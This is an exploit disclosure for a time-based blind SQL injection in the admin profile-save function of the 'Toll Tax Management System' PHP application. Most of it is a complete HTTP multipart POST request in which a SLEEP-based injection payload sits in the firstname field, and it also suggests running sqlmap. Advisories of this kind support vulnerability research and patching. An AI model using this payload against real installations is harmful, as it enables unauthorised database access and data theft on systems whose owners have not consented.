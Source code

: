 # Vault

# Exploit Title: 
Blind SQLI in (Toll Tax Management System)
# Date: 
22/09/2023
# Exploit Author: 

Xcode0x (Mohamed Almarri)

Twitter: @xcode0x

# Vendor Homepage: 
[https://github.com/oretnom23]()
# Software Link: 
https://www.sourcecodester.com/php/15304/toll-tax-management-system-phpoop-free-source-code.html
# Version: 
v1
# Tested on: 
debian

----
# SQLI BLIND   :

SQLI Blind in Admin panel when updating/saving admin profile.

# POC [debian]:

1- login as admin and go to profile [http://10.0.30.0:1337/admin/?page=user] .

2- set you payload in firstname or use sqlmap .

POST /classes/Users.php?f=save HTTP/1.1

Host: 10.0.30.0:1337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

X-Requested-With: XMLHttpRequest

Content-Type: multipart/form-data; boundary=---------------------------87171060839686939451677610311

Content-Length: 999

Origin: http://10.0.30.0:1337

Connection: close

Referer: http://10.0.30.0:1337/admin/?page=user

Cookie: PHPSESSID=o23q98hs6j8ut4u548ebt8epe4



-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="id"


1

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="firstname"


Adminstrator' AND (SELECT 2171 FROM (SELECT(SLEEP(5)))hgdO)-- EnP

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="middlename"


s

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="lastname"


Admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="username"


admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="password"


-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="img"; filename=""

Content-Type: application/octet-stream


-----------------------------87171060839686939451677610311--


![Drag Racing](https://github.com/xcodeOn1/SQLI-TollTax/blob/main/s1.png)


 # Tested  

 Linux - debian
